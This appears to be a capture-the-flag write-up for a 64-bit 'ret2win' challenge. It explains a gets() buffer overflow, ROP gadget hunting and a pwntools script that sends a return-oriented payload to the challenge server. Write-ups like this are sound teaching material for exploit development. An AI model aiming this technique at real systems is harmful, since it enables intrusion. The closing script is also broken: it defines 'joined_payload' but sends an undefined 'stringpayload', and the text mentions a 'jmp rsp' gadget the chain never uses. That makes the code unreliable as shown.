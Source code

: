   

----------------------------------------

# 0〤丩ᐯ㇌尺𝓝丩㇄|$

  

------------------------------------------------------------------------------

  
  

# Challenge Description:

------------------------------------------------------------------------------

Are you looking for an exploit dev job. Well apply to the Republic of Potatoes. We are looking for the best hackers out there. Download the binary, find the secret door and remember to pass the right password.

  

# Overview:

------------------------------------------------------------------------------

## File checks:

  

Running basic file checks on the binary:

  

![Alt text](Images/ret2win2.png)

  

We can see that the file is a ==non-stripped== 64-bit executable, with minimal protections, meaning it's a no-holds-barred challenge.

  

## Testing binary:

  

![Alt text](Images/ret2win1.png)

  

When running the binary we can see that it asks us for input, and tells us to get to the secret function so it's a basic ret2win challenge.

  

## Reversing the binary:

  

------------------------------------------------------------------------------

### main()

when opening the binary up when ghidra, we can start by looking at the main function, here is the decompiled version of it:

  

![Alt text](Images/main.png)

  
  

We can see that the application is very basic, it puts text on the screen and runs the user_input function, which the decompilation of is as follows:

### user_input()

  

![Alt text](Images/user_input.png)

  

Now it's obvious what we're going to do, the application sets a buffer of 32 bytes, and uses the ==gets== function, which is a very dangerous function, because gets doesn't know how big the buffer is, so it continues reading until it finds a newline or encounters EOF, and may overflow the bounds of the buffer it was given.

  
  

### Win()

and finally, the win function (or supersecrettoplevelfunction) as they're calling it:

  

![Alt text](Images/win.png)

  

The function checks for some parameters, which we can check the value of by right clicking on them, here is the value of the parameters:

  
  

![Alt text](Images/params.png)

![Alt text](Images/param2.png)

  
  

we can make out the parameters to be __cafebabe & c0debabe__

  

and finally we can construct our plan of attack.

  
  

# Plan of attack:

------------------------------------------------------------------------------

  

1. We will have to find the offset of the RIP

3. After that we have to pop some values off the stack to pass our parameters as per the [x64 calling conventions](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170)

4. We will then pass our parameters

5. Pass in our win_function address

6. And finally, we will wait for the magic to happen!

  
  

# Exploitation:

------------------------------------------------------------------------------

  

## Debugging with GDB-GEF:

  

First we generate a cyclic pattern using `pattern create <length>` inside of GEF, copying the value, pressing `r` and pasting it when the application prompts us.

  

![Alt text](Images/gef.png)

  
  

Looking at the result, we can see that the RIP didn't get overwritten as it would've if we were in a 32-bit application, and the application hit a Segmentation Fault when trying to return, we can also take note of where our cyclic pattern is, and currently it's in the $rsp register, meaning we have control over that. As to why our pattern didn't overwrite the RIP? I'll let you do this research on your own, but all the explanation can be found [here](https://coldfusionx.github.io/posts/ret2basic/)

  

So, after that we can find the offset by running `pattern search $rsp`, and getting the little-endian value of that.

  

![Alt text](Images/search.png)

  
  

Read more about Endiannes [here](https://en.wikipedia.org/wiki/Endianness)

  

Alright, everything should be set from now, we send a payload that consists of the following:

  

our padding+a valid memory address of a jmp rsp instruction+pop rdi+param1+pop rsi+param2

  

So let's start:

  

## Finding ROP gadgets:

  

To find the valid instructions we need, we'll need to use ropper or ROPGadget from pwntools, but I prefer ropper.

  

First, we'll need a pop rdi instruction and we can find it using the following command:

  

![Alt text](Images/pop_rdi.png)

  

And then a pop rsi:

  

![Alt text](Images/pop_rsi.png)

  

But wait... there's no pop rsi, only pop rsi; pop r15?

  

That's no problem at all, we'll just have to modify our payload to be the `pop rsi; pop r15; ret` address, and pass in two parameters instead of one, the first parameter will be put into rsi and the second -which can be any junk- will be put into the r15 register.

  

## Finding the win function address:

  

And finally, using `readelf`, we can find the address of the win function which we will pass.

  

![Alt text](Images/readelf.png)

  
  

And now that we have everything we need, the final form of the payload will be:

Padding + pop rdi+param1+pop rsi;r15+param2+junk_param+win_address

  
  

# The script:

------------------------------------------------------------------------------

  

```python

  
  

from pwn import *

elf=ELF('./ret2win')

session= remote('ret2win.challenges.ctf.ritsec.club', 1337)

win_function=p64(elf.symbols['supersecrettoplevelfunction'])

pop_rdi=p64(0x00000000004012b3)

param1=p64(0xcafebabe)

pop_rsi=p64(0x00000000004012b1)

param2=p64(0xc0debabe)

junk=p64(0x00)

  

padding=b'A'*40

  

joined_payload=padding+pop_rdi+param1+pop_rsi+param2+junk+win_function

  

print(stringpayload)

with open('payload','wb') as test:  # FOR DEBUGGING PURPOSES ONLY

    test.write(stringpayload)

#p = elf.process()                  # FOR DEBUGGING PURPOSES ONLY

# gdb.attach(p,"""

#   b main

#   r < payload

#   c""")

session.sendline(stringpayload)

session.interactive()

  
  

```

  

------------------------------------------------------------------------------